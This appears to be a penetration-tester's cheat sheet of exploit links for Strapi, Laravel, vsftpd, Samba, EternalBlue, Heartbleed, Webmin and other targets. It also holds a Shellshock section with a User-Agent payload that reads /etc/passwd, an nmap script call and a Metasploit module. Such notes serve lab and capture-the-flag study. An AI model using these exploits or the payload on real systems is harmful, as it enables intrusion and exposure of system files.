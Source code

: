 #CVE

https://www.exploit-db.com/exploits/50238 #Strapi 3.0.0-beta.17.7 RCE
https://www.exploit-db.com/exploits/50237 #Strapi 3.0.0-beta Set password
https://github.com/nth347/CVE-2021-3129_exploit #laravel RCE
https://www.exploit-db.com/exploits/49757 #vsftpd 2.3.4
https://www.exploit-db.com/exploits/16320 #samba 3.0.20 < 3.0.25rc3
http://blog.curesec.com/article/blog/NibbleBlog-403-Code-Execution-47.html 
#nibbleblog 

https://www.exploit-db.com/exploits/11746 #torrent-Hoster
https://www.exploit-db.com/exploits/24044 #phpliteadmin
https://www.exploit-db.com/exploits/33899 #Chkrootkit 
https://github.com/worawit/MS17-010 #eternalblue
https://www.exploit-db.com/exploits/48506 #gym1managment
https://www.exploit-db.com/exploits/47691 #opennetadmin
https://www.exploit-db.com/exploits/32745 #heartbleed
https://www.exploit-db.com/exploits/46984 
https://raw.githubusercontent.com/NaveenNguyen/Webmin-1.910-Package-Updates-RCE/master/exploit_poc.py #webmin


# Shellshock

## Exploit manually 

- Attackers can abuse shellshock bug by changing User-Agent to have RCE on the target

```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

## nmap

```bash
nmap --script=http-shellshock --script-args "http-shellshock.uri=PATH"
```


## msfconsole

```ruby

 use exploit/multi/http/apache_mod_cgi_bash_env_exec

```
